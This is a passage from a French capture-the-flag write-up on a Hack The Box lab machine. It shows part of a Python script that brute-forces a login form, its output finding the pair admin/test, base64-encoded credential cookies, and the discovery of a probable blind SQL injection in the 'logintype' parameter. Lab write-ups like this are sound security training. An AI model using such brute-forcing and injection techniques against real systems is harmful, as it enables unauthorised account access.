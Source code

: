 ```python
                            headers={"referer": "http://members.streetfighterclub.htb/old/Login.asp"},
                            allow_redirects=True,
                            timeout=10
                        )
                    except RequestException as exception:
                        print(exception)
                    else:
                        if "rememberme" not in response.text:
                            print("Special case with {} / {} (type {})".format(username, password, login_type))
                            sess = requests.session()
```

J'aurais tout aussi bien pu utiliser [Patator](https://github.com/lanjelot/patator) ou [Hydra](https://github.com/vanhauser-thc/thc-hydra) au vu de la faible complexité de l'authentification.  

```plain
Trying user chun-li
Trying user ryu
Trying user blanka
Trying user chunli
Trying user guile
Trying user ken
Trying user bison
Trying user vega
Trying user balrog
Trying user sagat
Trying user zangief
Trying user dhalsim
Trying user honda
Trying user admin
Special case with admin / test (type 1)
Trying user streetfighter
Trying user capcom
```

Malheureusement la saisie de ces identifiants ne nous apporte rien de plus que le message *ERROR: Service not available* :'(  

Devant ce piètre résultat je me suis ensuite penché sur le format des cookies obtenus qui contient des valeurs encodées en base64 :  

```plain
Email=YWRtaW5Abm93aGVyZS5jb20%3D; path=/Level=MQ%3D%3D; path=/Chk=6253; path=/password=dGVzdA%3D%3D; expires=Sun, 02-Jun-2019 12:07:06 GMT; path=/username=YWRtaW4%3D; expires=Sun, 02-Jun-2019 12:07:06 GMT; path=/
```

Malheureusement après avoir tenté différentes attaques d'injection (via [ZAP Proxy](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)) sur ces valeurs, force est de constater que je faisais fausse route.  

Je me suis alors attaqué tout simplement aux paramètres du formulaire de login et en testant les différents champs il apparaît que le *logintype* a un comportement particulier et provoque des erreurs HTTP 500 si on sort un peu des sentiers battus. On serait donc en présence d'une faille d'injection SQL en aveugle.  
